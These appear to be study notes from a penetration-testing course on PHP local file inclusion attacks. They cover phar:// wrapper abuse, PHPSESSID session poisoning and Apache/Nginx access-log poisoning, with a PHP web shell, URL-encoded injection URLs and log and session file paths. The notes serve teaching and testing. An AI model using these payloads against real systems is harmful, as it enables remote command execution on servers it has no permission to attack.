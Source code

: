 Upload it and simply call it with the `phar://`, provide the URL path, and specify the sub-file with `/shell.txt` (URL encoded):

```http
http://server:port/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
## Log Poisoning

The attacks here rely on: Writing PHP code in a field we control that gets logged into a log file, and then include that log file to execute the PHP code.

The PHP web app should have read privileges over the logged files, which is different from server to server.

### PHP Session Poisoning

Most web apps utilize the `PHPSESSID` cookies.

They hold specific user-related data on the back-end, to keep track of these details through cookies.

These are stored in`session` files and stored on `/va/lib/php/sessions/` on Linux and `C:\Windows\Temp\` on Windows.

The filename has a `sess_` prefix and matches the `PHPSESSID` cookie.

First thing after we see the value of the cookie, use LFI to view the contents.

For example: `pagejs:6:"en.php":preferencejs:7:"English"...`, and here we see the `page` which shows the selected language page, and `preference` which shows the selected language.

We have under control the `page` value, using the `?language=` parameter.

So now we can poison it by writing PHP code to the session file.

URL-encode the web shell:

`<?php system($_GET["cmd"]);?>`

`http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`

Now include the session file and use the `&cmd=` to execute commadns.

### Server Log Poisoning

Both `Apache` and `Nginx` have log files such as `access.log` and `error.log`.

- `access.log` has information about all requests made to the server, including the `User-Agent` header form the request. As we can control it, we can also poison it.

If we have read access to the logs, then we can use the LFI to access it.

`Apache` logs are only readable by users with high privileges.

- Apache logs - `/var/log/apache2/` on Linux, `C:\xampp\apache\logs\` on Windows
- Nginx logs = `/var/log/nginx` on Linux, and `C:\nginx\log\` on Windows.

They can be on different locations, so we may need to fuzz it with the `LFI Wordlist`.


